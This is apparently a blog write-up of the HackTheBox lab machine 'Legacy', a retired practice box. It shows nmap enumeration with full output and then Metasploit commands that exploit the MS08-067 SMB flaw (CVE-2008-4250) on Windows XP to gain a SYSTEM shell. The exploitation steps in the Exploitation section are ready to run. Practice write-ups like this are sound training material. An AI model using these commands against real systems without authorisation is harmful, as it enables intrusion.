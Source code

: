 ```yaml
---
layout: post
title:  "HackTheBox - Legacy Writeup"
categories: HackTheBox
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Legacy" (10.10.10.4) on the platform HackTheBox. HackTheBox is a pentetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

The first thing we're going to do is run an NMAP scan using the following command `nmap -sV -sC -Pn -oX /tmp/webmap/legacy.xml 10.10.10.4` if you're wondering about the last flag `-oX` that is allowing me to output the report into an XML format, this is because I use webmap (as you can see in the /tmp/webmap) which is an awesome tool that allows me some visual aids for a box/network!

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Legacy$ nmap -sC -sV -Pn -oX /tmp/webmap/legacy.xml 10.10.10.4

Starting Nmap 7.60 ( https://nmap.org ) at 2019-01-28 17:13 GMT
Nmap scan report for 10.10.10.4
Host is up (0.028s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d01h57m38s, deviation: 0s, median: 5d01h57m38s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:65:4d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-02-02T21:11:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

As you can see in the above scan, it looks like we're rrunning Windows XP, as you will know, this is a very old OS so it is likely there are going to be some CVEs which are unpatched, very easy to explokt & very powerful. We know that SMB is running so let us do some google-fu for a SMB Windows XP vulnerability.

### SMB

As we mentioned, we know SMB is running and we're on Windows XP so it is highly likely there is a vulnerability we can exploit for the foothold here. The first thing that I searched was "windows xp smb exploit" and the very first result was CVE2008-4250 & a MSF module that we can use to exploit this. I did some basic research on this vulnerability as I wanted to exploit it manually for my own benefit however, it is a lot harder to exploit manually than I expected with a lot of steps/things that had to be done, so for the sake of this being a 20 point box I just used the Metasploit module.

## Exploitation

So, let's load MSF using `msfconsole` once it loads we need to use `msf5 > use exploit/windows/smb/ms08_067_netapi ` to select the exploit, that is the MS number however as mentioned earlier the CVE is CVE2008-4250. Once we've selected the exploit we now need to set the remote host, we can do this using `set RHOST 10.10.10.4` and that will set the host. That is all we need to configure, now you just need to run the exploit and we'll get a shell.

It is worth noting that this might not work without setting the target, in that case, we know that it is Windows XP but we don't know the service pack however, we can take a pretty good guess it is the English pack SP2 or SP3. You can use `show targets` to find a list of all the service packs, etc.

```
msf5 exploit(windows/smb/ms08_067_netapi) > set TARGET 7
TARGET => 7
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   7   Windows XP SP3 English (NX)


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

Once you run this you're going to get thrown into the `system32` folder as NT_Authority. That basically means, no privilege escalation is going to be required for us now, all we need to do is go and get the user & root flag. That is it!

Thanks for reading another writeup, more coming soon! 